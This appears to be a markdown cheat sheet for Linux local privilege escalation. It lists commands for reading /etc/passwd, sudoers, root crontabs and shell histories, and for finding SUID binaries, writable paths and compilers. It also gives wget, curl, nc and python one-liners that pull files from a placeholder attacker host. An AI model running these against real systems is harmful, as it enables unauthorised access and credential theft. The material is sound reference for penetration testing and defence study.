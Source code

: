 # Linux - Local Privilege Escalation

### Recon

###### Initial recon

| Description | Command |
|-------------|---------|
| OS | cat /etc/*-release <br/>cat /etc/lsb-release |
| Kernel | uname -a <br/> cat /proc/version <br/> rpm -q kernel |
| Current user | id <br/>whoami |
| All users    | cat /etc/passwd |
| Super users | awk -F: '($3 == "0") {print}' /etc/passwd |
| Sudoers | cat /etc/sudoers <br/> sudo -l |

###### Home directories content

The users home directories may contain sensible information such as config files
or history files.    
The following commands can be used to display the content of the users home
directories:

```bash
# Home
ls -lah /home/*
ls -ahlR /home/
find /home -type f -printf "%f\t%p\t%u\t%g\t%m\n" 2>/dev/null | column -t
tree -pugfai /home

# Histories
cat ~/.bash_history
cat ~/.nano_history
```

###### Installed programs

The installed programs should be reviewed for potential known
vulnerabilities.  
To review the installed programs of the target:

```bash
dpkg -l
apt list --installed
rpm -qa
ls -lah /usr/bin
ls -lah /usr/sbin
```

###### Scheduled tasks

Look for tasks running as root from script that you can modify:

```bash
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
cat /etc/cron*
cat /var/spool/cron/crontabs/root
```

###### Compilers/languages installed/supported

The supported languages may be levaraged to compile exploit against the
operating system / kernel.  
To find out which compilers / languages can be used:
```bash
# C / C++
find / -name gcc* 2>/dev/null
find / -name g++* 2>/dev/null
find / -name clang* 2>/dev/null

# Python
python --version
find / -name python* 2>/dev/null

# Ruby
ruby --version
find / -name ruby* 2>/dev/null

# Perl
perl --version
find / -name perl* 2>/dev/null

# PHP
php --version
find / -name php* 2>/dev/null
```

Writable files & directories

/dev/shm
/tmp
File
find / -perm -2 -type f 2>/dev/null
find / -type f \( -perm -g+w -or -perm -o+w \) -exec ls -lahd {} \; 2>/dev/null

Directory
find / -perm -2 -type d 2>/dev/null
find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -lahd {} \; 2>/dev/null


File transfer tools

wget / Curl / netcat / nc / Python
wget -O file http://<IP>:<PORT>t/filename
curl http://<IP>:<PORT>/filename > file
nc -l -p <PORT> > file
python -c "from urllib import urlretrieve; urlretrieve('http://<IP>:<PORT>/file', 'file')"
python3 -c "from urllib.request import urlretrieve; urlretrieve('http://<IP>:<PORT>/file', 'file')"

See General Attack / File Transfer


Enum scripts

LinEnum.sh
unix-privesc-check
linuxprivchecker.py
Linux_Exploit_Suggester.pl

/opt/priv_esc/linux/


###### Files with the SUID Bit Set
find / -user root -perm -4000 -ls 2>/dev/null

find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -type f -user root -perm -4000 -exec stat -c "%A %a %n" {} \; 2>/dev/null

Files with the SGID Bit Set
find / -user root -perm -2000 -ls 2>/dev/null
find / -type f -user root -perm -2000 -exec stat -c "%A %a %n" {} \; 2>/dev/null

Both
find / -user root -perm -6000 -ls 2>/dev/null
find / -type f -user root -perm -6000 -exec stat -c "%A %a %n" {} \; 2>/dev/null

Installed programs

dpkg -l
apt list --installed
rpm -qa
ls -lah /usr/bin
ls -lah /usr/sbin


Scheduled tasks

crontab -l
ls -lah /etc/ | grep cron
ls -lah /etc/cron*
ls -lah /var/spool/cron

cat /etc/cron.X/*
...


Histories

history
cat ~/.bash_history
cat ~/.nano_history
